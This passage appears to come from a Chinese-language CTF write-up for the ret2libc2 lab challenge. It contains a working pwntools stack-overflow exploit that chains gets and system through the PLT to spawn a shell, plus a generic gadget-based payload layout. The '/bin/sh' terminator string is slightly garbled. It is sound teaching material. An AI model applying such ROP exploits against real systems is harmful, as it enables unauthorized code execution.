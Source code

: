 + 这道题构造的 `payload` 打出之后栈里面应该是这样的

  ![image-20201020173326671](https://raw.githubusercontent.com/smallzhong/picgo-pic-bed/master/image-20201020173326671.png)

+ 代码如下

  ```python3
  #!usr/python
  #coding:utf-8
  
  from pwn import *
  
  io = process("./ret2libc2")
  
  elf = ELF("./ret2libc2")
  
  system_plt = elf.plt["system"]
  
  get_plt = elf.plt["gets"]
  
  buf2 = 0x0804A080  # bss段的buf2
  
  # bin_sh = next(elf.search(b"/bin/sh"))  # elf.search返回的是一个迭代器，要用next获取第一个元素
  
  print(hex(get_plt))
  
  print(hex(system_plt))
  
  payload = flat([b'A' * 112, get_plt, system_plt, buf2, buf2])
  
  io.sendline(payload)
  
  io.sendline(b'/bin/sh\0x00')  # 保险起见最后加上一个EOF
  
  io.interactive()
  ```

+ 这是仅用两个函数达到目的的情况，实际如果需要使用多个函数的话通用的 `payload` 要这样构造

  ```python3
  payload = flat([b'A' * 112, get_plt, pop_ebx_ret, buf2, system_plt, b'AAAA', buf2])
  ```

  这样在调用一个函数之后通过一块 `pop ebx ret` 的gadget帮我们平衡堆栈，最后再调用 `system` 。